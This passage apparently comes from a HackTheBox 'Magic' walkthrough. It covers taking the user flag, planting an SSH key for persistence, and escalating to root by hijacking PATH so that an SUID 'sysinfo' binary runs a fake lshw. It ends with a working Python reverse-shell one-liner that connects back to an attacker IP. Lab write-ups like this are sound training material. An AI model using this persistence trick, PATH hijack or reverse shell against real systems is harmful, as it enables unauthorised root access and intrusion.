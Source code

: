 You can use the password to upgrade your shell.

![userflag](../../../../assets/images/hackthebox/magic/7_userflag.png)

Now we are Theseus and have the user flag.

# persistence

If the connection should break off, you would have to repeat everything up to this step or automate the way before.

I have decided to store a SSH key to guarantee access even if the connection is interrupted.

```bash
ssh-keygen -t ed25519
```
![persistence](../../../../assets/images/hackthebox/magic/8_1_create_persistence.png)

When creating it I made sure to use `ed25519`. Not only because I find elliptical curves cooler, but simply because the string to be copied is shorter.

![persistence](../../../../assets/images/hackthebox/magic/8_create_persistence.png)

# privilege escalation

As Theseus, you must now try to become root. For this I have uploaded LinEnum to the server.

## enumeration

LinEnum returns an interesting line. The command `sysinfo` has set the SUID bit, now it's interesting to see what happens when sysinfo, which collects system information, is executed. 

![privesc_enum](../../../../assets/images/hackthebox/magic/9_privesc_enum.png)

I use `pspy64` for this, the tool shows me exactly what happens when sysinfo is running.

Among other things lshw is executed with the UID 0, which is root.

![lshw](../../../../assets/images/hackthebox/magic/10_lshw.png)

You can take advantage of this by extending the Path variable so that `lshw` is not taken from the `/usr/bin` directory but from the temp directory, for example.

From this moment on you have full control over what is executed.

```bash
export PATH=/tmp:$PATH
```

Now I create the file `/tmp/lshw` and write the following Python code into it:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.44",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
